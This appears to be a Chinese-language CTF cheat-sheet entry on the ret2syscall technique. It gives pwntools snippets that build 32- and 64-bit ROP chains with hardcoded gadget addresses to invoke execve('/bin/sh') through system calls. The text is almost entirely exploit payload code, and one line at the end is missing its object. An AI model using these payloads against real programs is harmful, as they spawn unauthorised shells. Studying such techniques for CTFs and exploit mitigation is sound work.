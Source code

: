 ##### ret2syscall

利用系统调用号不只是简单调用system()

```python
#execve("/bin/sh",NULL,NULL)
#32位syscall
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
io.sendline(payload)

#系统调用号，即 eax 应该为 0xb
#第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
#第二个参数，即 ecx 应该为 0
#第三个参数，即 edx 应该为 0
#64位syscall
pop_rax = 0x46b9f8 
pop_rdi = 0x4016c3 
pop_rdx_rsi = 0x4377f9 
bss = 0x6c2000 
ret = 0x45bac5 
payload  = cyclic(0x50+8) 
payload += p64(pop_rax)+p64(0x0) 
payload += p64(pop_rdx_rsi)+p64(0x10)+p64(bss) 
payload += p64(pop_rdi)+p64(0) 
payload += p64(ret) 
payload += p64(pop_rax)+p64(0x3b) 
payload += p64(pop_rdx_rsi)+p64(0)+p64(0) 
payload += p64(pop_rdi)+p64(bss) 
payload += p64(ret) 
io.sendline(payload) 
io.sendline("/bin/sh\x00")

#多函数调用
pop_eax = 0x080bb2c6 
pop_edx_ecx_ebx = 0x0806ecb0
bss = 0x080eb000
int_0x80 = 0x0806F350
payload = "a"*44
payload += p32(pop_eax)+p32(0x3)
payload += p32(pop_edx_ecx_ebx)+p32(0x10)+p32(bss)+p32(0)
payload += p32(int_0x80)
payload += p32(pop_eax)+p32(0xb)
payload += p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(bss)
payload += p32(int_0x80)
io.sendline(payload)
bin_sh = "/bin/sh\x00"
.sendline(bin_sh)
```
